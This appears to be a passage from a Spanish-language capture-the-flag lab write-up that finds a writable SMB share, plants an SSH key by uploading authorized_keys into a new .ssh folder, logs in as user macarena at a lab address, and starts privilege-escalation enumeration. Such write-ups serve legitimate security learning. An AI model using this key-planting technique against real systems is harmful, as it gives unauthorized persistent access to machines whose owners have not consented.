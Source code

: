 Vemos que tenemos capacidad de escritura sobre este directorio:
```bash
 print$                                                  READ ONLY       Printer Drivers
 macarena                                                READ, WRITE
```
  
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Tenemos capacidad de escritura sobre el directorio de **macarena**, Asi que crearemos unas llaves **ssh** para despues podernos conectar atraves de este servicio sin proporcionar contrasena.
```bash
puttygen -t rsa -b 2048 -O private-openssh -o gm4tsy
```

Damos permisos de ejecucion:
```bash
chmod 600 gm4tsy
```

Creamos el archivo **autorized_keys**:
```bash
puttygen gm4tsy -o authorized_keys -O public-openssh
```

En el servicio **SMB** crearemos una carpeta **( .ssh )** donde guardaremos el archivo **autorized_keys**
```bash
mkdir .ssh
```

Ahora subimos el archivo **autorized_keys** en el servicio **SMB** de la siguiente manera:
```bash
put authorized_keys .ssh/authorized_keys
```
### Ejecucion del Ataque
Una ves subido el archivo correctamente provamos la coneccion por **ssh** y usamos la llave privada como identificador desde nuestra maquina atacante:
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh -i gm4tsy macarena@172.17.0.2
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
find / -iname "secret" 2>/dev/null
```
